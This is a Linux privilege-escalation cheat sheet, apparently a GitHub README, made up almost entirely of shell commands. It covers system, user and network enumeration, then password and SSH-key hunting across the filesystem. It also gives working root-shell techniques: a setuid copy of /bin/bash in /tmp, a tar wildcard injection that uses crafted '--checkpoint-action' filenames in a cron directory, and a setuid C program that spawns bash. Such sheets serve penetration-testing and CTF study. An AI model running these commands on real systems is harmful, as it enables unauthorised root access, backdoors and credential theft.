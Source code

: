 # Linux Privesc Cheat-Sheet

## System Enumeration

Kernel info - ``` uname -a ```

Proccesses,services - ```ps aux, ps aux | grep root```

Suid - ```find / -perm -u=s -type f 2>/dev/null, find / -type f -perm -04000 -ls 2>/dev/null find / -perm -4000 2>/dev/null```

trace - ```strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"```

Capabilities - ```getcap -r / 2>/dev/```

NFS - ```cat /etc/exports```

Architechture and cpu info - ```lscpu```

## User Enumeration

Info about user - ```whoami, id```

What can we run as sudo - ```sudo -l```

Users - ```cat /etc/passwd, cat /etc/passwd | cut -d : -f 1```

## Network Enumeration

IP info - ```ifconfig```

Routing info - ```ip route```

Connections - ```netstat```

## Password Hunting

Password phrases - ```grep --color=auto -rnw '/' -ie "Password=" --color=always 2> /dev/null```

Password files - ```locate password```

Finding ssh keys - ```find / -name id_rsa 2> /dev/null```

## Useful commands

```echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p" > file```

### cron wildcards

```

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh

touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh\ runme.sh

/tmp/bash -p

```

```echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c```


## Automated Tools

1.Linpeas

2.LinEnum

3.Linux exploit suggester

4.Linux privchecker
